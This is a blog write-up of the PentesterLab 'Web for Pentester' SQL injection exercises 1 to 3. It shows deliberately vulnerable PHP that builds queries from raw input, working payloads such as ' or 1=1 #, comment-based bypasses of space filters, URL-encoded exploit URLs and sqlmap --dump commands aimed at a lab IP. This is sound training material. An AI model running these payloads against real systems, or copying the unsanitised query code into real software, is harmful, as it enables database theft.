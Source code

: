 ```yaml
---
layout: post
title: "PentesterLab -- Web for Pentester - SQL Injection"
date: 2016-02-20 22:14:10
comments: true
categories: [pentesterlab, sql injection, web pentest]
---
```


Web for Pentester:
    This exercise is a set of the most common web vulnerability 

Difficluty: 1/5

###Example 1   

code review:
```php example1.php
<?php

  require_once('../header.php');
  require_once('db.php');
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";	
	$result = mysql_query($sql);
	if ($result) {
		?>
		<table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
		<?php
		while ($row = mysql_fetch_assoc($result)) {
			echo "<tr>";
    			echo "<td>".$row['id']."</td>";
    			echo "<td>".$row['name']."</td>";
    			echo "<td>".$row['age']."</td>";
			echo "</tr>";
		}	
		echo "</table>";
	}
  require_once '../footer.php';
?>

```

There is a vulnerability due to no input validation on parameter $_GET[“name”], so I can hack it directly by injecting `' or  1=1 #`. After injection, $sql now is `SELECT * FROM users where name=''  or  1=1 #`. This sql injection will pull all items in the table users.

Manually exploit (encode root' or 1=1#):

`http://192.168.79.162/sqli/example1.php?name=root%27%20or%201%3D1%23`


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql1_manual.JPG   [title manually exploit [alt text]] %}

sqlmap exploit:

`sqlmap -u "http://192.168.79.162/sqli/example1.php?name=root"  --dump`


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql1_sqlmap.JPG   [title sqlmap exploit [alt text]] %}   





###Example 2

code review:

```php example2.php
<?php
  require_once('../header.php');
  require_once('db.php');

	if (preg_match('/ /', $_GET["name"])) {
		die("ERROR NO SPACE");	
	}
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";

	$result = mysql_query($sql);
	if ($result) {
		?>
		<table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
		<?php
		while ($row = mysql_fetch_assoc($result)) {
			echo "<tr>";
    			echo "<td>".$row['id']."</td>";
    			echo "<td>".$row['name']."</td>";
    			echo "<td>".$row['age']."</td>";
			echo "</tr>";
		}	
		echo "</table>";
	}
  require '../footer.php';
?>

```

The author filtered the space in the user input. It prevents us from using the  ` '  or  1=1  #`. However, this filtering is easily bypassed, using tabulation (HT or \t) or comment /**/


Manually exploit (encode '/\*\*/or/\*\*/1=1/\*\*/#):

`http://192.168.79.162/sqli/example2.php?name=root%27%2f%2a%2a%2for%2f%2a%2a%2f1%3D1%2f%2a%2a%2f%23`


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql2_manual.JPG   [title manually exploit [alt text]] %}

sqlmap exploit:

`sqlmap -u "http://192.168.79.162/sqli/example2.php?name=root" --dump --tamper=space2comment`

space2comment.py --- Replaces space character (' ') with comments '/**/'


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql2_sqlmap.JPG   [title sqlmap exploit [alt text]] %} 




###Example 3

code review:

```php example3.php
<?php
    require_once('../header.php');
  require_once('db.php');
	if (preg_match('/\s+/', $_GET["name"])) {
		die("ERROR NO SPACE");	
	}
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";

	$result = mysql_query($sql);
	if ($result) {
		?>
		<table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
		<?php
		while ($row = mysql_fetch_assoc($result)) {
			echo "<tr>";
    			echo "<td>".$row['id']."</td>";
    			echo "<td>".$row['name']."</td>";
    			echo "<td>".$row['age']."</td>";
			echo "</tr>";
		}	
		echo "</table>";
	}
    require '../footer.php';
?>

```

The author filtered the spaces and tabulations in the user input. It prevents us from using the  ` '  or  1=1  #`. However, this filtering is easily bypassed, using comment /**/

Manually exploit (encode '/\*\*/or/\*\*/1=1/\*\*/#):

`http://192.168.79.162/sqli/example3.php?name=root%27%2f%2a%2a%2for%2f%2a%2a%2f1%3D1%2f%2a%2a%2f%23`


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql3_manual.JPG   [title manually exploit [alt text]] %}

sqlmap exploit:

`sqlmap -u "http://192.168.79.162/sqli/example3.php?name=root" --dump --tamper=space2comment`

space2comment.py --- Replaces space character (' ') with comments '/**/'


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql3_sqlmap.JPG   [title sqlmap exploit [alt text]] %} 

